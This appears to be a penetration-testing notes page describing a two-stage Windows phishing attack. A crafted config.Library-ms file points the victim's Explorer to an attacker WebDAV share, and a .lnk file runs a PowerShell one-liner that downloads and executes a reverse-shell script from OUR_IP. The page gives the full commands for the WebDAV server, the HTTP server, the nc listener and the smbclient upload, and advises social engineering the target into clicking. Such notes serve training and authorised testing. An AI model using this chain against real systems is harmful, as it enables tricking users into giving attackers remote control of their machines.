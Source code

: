 # Windows Library Files

## Explination

In the first stage, we'll use Windows library files to gain a foothold on the target system and set up the second stage. In the second stage, we'll use the foothold to provide an executable file that will start a reverse shell when double-clicked.

## Execution

First we need to install and setup a WebDAV share. We are using a WebDAV share over something like a simple http server so that it can be rendered in Windows explorer.

```bash
wsgidav --host=0.0.0.0 --port=80 --auth=anonymous --root $(pwd)
```

We will then create the file `config.Library-ms` with the following contents to open the WebDAV share remotely

```xml
<?xml version="1.0" encoding="UTF-8"?>
<libraryDescription xmlns="http://schemas.microsoft.com/windows/2009/library">
<name>@windows.storage.dll,-34582</name>
<version>6</version>
<isLibraryPinned>true</isLibraryPinned>
<iconReference>imageres.dll,-1003</iconReference>
<templateInfo>
<folderType>{7d49d726-3c21-4f05-99aa-fdc2c9474656}</folderType>
</templateInfo>
<searchConnectorDescriptionList>
<searchConnectorDescription>
<isDefaultSaveLocation>true</isDefaultSaveLocation>
<isSupported>false</isSupported>
<simpleLocation>
<url>http://OUR_IP</url>
</simpleLocation>
</searchConnectorDescription>
</searchConnectorDescriptionList>
</libraryDescription>
```

This file will be what we send to the target.

Next we will create a `.lnk` file that will launch our reverse shell. Because `.lnk` files have restricted character lengths, we will use the following command as opposed to the usual base64 encoded payload. We can use the `PowerShell #3 (Base64)` reverse shell from [revshells](https://www.revshells.com/) and place it in the file `hehe.ps1`.

`hehe.ps1` on attack box

```powershell
powershell -e JABjAGwAaQBlAG4AdAA...
```

`automatic_configuration.lnk` path for target to click (more details can be found [here](../../11%20Windows/Windows%20Shells.md))

```powershell
powershell -nop -noni -ep bypass -c "IEX(New-Object System.Net.WebClient).DownloadString('http://OUR_IP:8000/hehe.ps1')"
```

We will now place `automatic_configuration.lnk` in the directory where we are serving our wsgidav web server so that the target can run it after opening `config.Library-ms`

Before sending the `config.Library-ms` file, we can setup our listeners with the following commands in separate terminals

```bash
python3 -m http.server
```

```bash
rlwrap -cAr nc -lvnp 9001
```

We can then place the `.lnk` within our WebDAV directory, and send `config.Library-ms` to our target and social engineer them into opening `config.Libary-ms` and click on `automatic_configuration.lnk`

One way to do this is through uploading the library to a SMB server via `smbclient`

```bash
smbclient //192.168.1.195/share -c 'put config.Library-ms'
```
